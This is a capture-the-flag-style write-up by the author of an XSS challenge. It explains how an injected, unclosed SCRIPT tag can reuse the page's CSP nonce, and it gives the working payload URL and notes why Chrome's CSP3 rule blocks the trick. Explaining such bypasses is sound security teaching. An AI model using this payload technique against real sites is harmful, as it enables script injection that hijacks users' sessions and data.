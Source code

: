 > :Title shadow=0 0 8px black, color=white
>
> My first XSS challenge - Writeup

> :Author name=Alain, date=14/09/2020

<br>

# The challenge

Two weeks ago I created [my first XSS challenge](https://twitter.com/krial057/status/1300423121351184384). A XSS challenge is similar to a [CTF challenge](https://ctftime.org/ctf-wtf/). Whereas CTF challenges usually consist of complete Websites without a clear goal, a XSS challenge is usually short and the goal is to execute arbitrary Javascript code.

The main obstacle of my XSS challenge consisted of bypassing the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

## Source Code
The challenge source code was public, so no hidden secrets to find. The following is a shortened version of the challenge source code:
```php | index.php
<?php 
  $nonce = base64_encode(random_bytes(32));
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-".$nonce."'"); // --> Only allow script execution with the right nonce token
?>
<html>
    <body>
        <?php
            $todos = '';
            $todos = $todos."<div> Todo #1 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> Todo #2 </div>\n"; // --> A constant TODO
            $todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> A TODO supplied by the user over url
            $todo_list = explode("\n", $todos);
            foreach($todo_list as $todo) {
                if(strpos($todo, "script") === false) { // --> Don't allow script injections in todos
                    echo $todo."\n";
                } 
            }
        ?>

        <script nonce="<?php echo $nonce ?>">
                console.log("bla")
        </script>
    </body>
</html>
```

# The solution

## Baby steps

The first thing one should notice is the possibilty to inject arbitrary html using the todo parameter:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n"; // --> arbitrary HTML injection using ?todo=own_html
```
People not knowing about [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) probably think they could simply provide a `script` element with arbitrary JS. The script tag filter `if(strpos($todo, "script") === false)` could easily be bypassed using `SCRIPT` instead of `script`. However, giving it a try we get the following error in the console:
```js | index.php?todo=<SCRIPT>alert(1)</SCRIPT>
/*~*/ Refused to execute inline script because it violates /*~*/
/*~*/ the following Content Security Policy directive: /*~*/
/*~*/ "script-src 'nonce-FHFXLGv/SdLkQ9CjBaE8s5wiMR3W1yADF+BjNZE+ZNs='". /*~*/
/*~*/ Either the 'unsafe-inline' keyword, a hash ('sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='), /*~*/
/*~*/ or a nonce ('nonce-...') is required to enable inline execution. /*~*/
```

The only possible way to to execute arbitrary javascript is to add a `nonce` attribute to the `script` tag that is the same as the one defined in the CSP header. As the nonce is randomly generated on each page refresh, it is impossible to set it in advance.

## Getting the nonce

So the big question is: how can we add a script tag with a valid nonce before we know the nonce?
Most common techniques are:
* Exfiltrate the nonce somehow and reuse it
* Force the same nonce using a cached version of the site
* Overwrite the base tag

However, all of these were not possible on my challenge. `default-src` was set to `none`, making nonce exfiltration pretty much impossible. Page caching was disabled and there was no script tag with a relative url, that could have been abused by the base tag.

The main idea was to somehow reuse the same nonce that is already used by the included script. Let's see what would happen if we open a script tag without closing it in front of another script tag:

```html
/*+*/ <script <script nonce="randomlyGeneratedNonce">
     console.log("bla")
</script>
```

Interestingly, the original `<script` is now considered to be an attribute of our newly injected open script tag.
Even better, we can inject our own attributes inside the script tag that has the correct nonce:

```html
/*+*/ <script id="yolo" <script nonce="randomlyGeneratedNonce">
    console.log("bla")
</script>
```

The next big question is, what happens if we provide a `src` attribute. Will it execute the script provided in the `src` attribute or will it run, as before, the content (`console.log`) of the `<script>` element? Let's try it out in Firefox:

```html
/*+*/ <script src="data:,alert(1)" <script nonce="randomlyGeneratedNonce"> /* --> src could also be a URL to a js file and it would also work */
    console.log("bla")
</script>
```
This HTML snippet will actually result in an alert popping up and showing nothing in the console. So `src`has a higher priority than the actual script element content.

Perfect, let's try to pop an alert with my challenge:

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)
```

But nothing happens. Let's inspect the DOM tree:
```html
<SCRIPT src="data:,alert(1)" </div>
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```

The problem is, the todo we add is encapsulated inside a div element:
```php
$todos = $todos."<div> ".$_GET['todo']." </div>\n";
```
and the `>` of the ending div tag is closing our script tag before the nonce is reached.

However I sneaked a way inside the challenge to remove the ending div tag. Do you remember the filter that removes the `script` tags?
It not only removes the script tag but the whole line in which the script tag is inside:

```php
foreach($todo_list as $todo) {
    if(strpos($todo, "script") === false) { // --> If "script" is contained inside the line, don't echo the whole line.
        echo $todo."\n";
    } 
}
```
by providing a todo with the following content: `<SCRIPT src="data:,alert(1)" \n script`, we can remove the unwanted closing div tag:

```html
<SCRIPT src="data:,alert(1)" 
/*-*/ script </div> // --> This line will be removed as it contains "script"
    <script nonce="I7ZgzXJRSbrjz5vwVlPSEOGzDxBZVOjPOVJ6WQJkoWU=">
      console.log("test")
</script>
```


## The final solution

[Doesn't work in Chrome:](#why-it-doesnt-work-in-chrome--csp-v3)

```
https://not.lu/challenge?todo=%3cSCRIPT%20src=data:,alert(1)%0ascript
```

# Why it doesn't work in Chrome / CSP v3

At first I was very confuset why it wasn't working in Chrome. Chrome was throwing an error that the nonce was incorrect. However, the nonce attribute was set and was correct.(`console.log(script.nonce)` was the same as the nonce set in the CSP header).

It was [@SecurityMB](https://twitter.com/SecurityMB) who pointed me to the following CSP v3 spec: [Nonceable Algorithm](https://www.w3.org/TR/CSP3/#is-element-nonceable). The problem of abusing an already existing script tag's nonce is apprently known and this new spec prevents the mechanic . It does this by chechking for the strings `<script` or `<style` inside a script element's attribute names and values. If it is present it renders the nonce invalid.

Firefox and Safari don't implement this spec yet. Therefore, this mechanic could still be abused in my challenge.
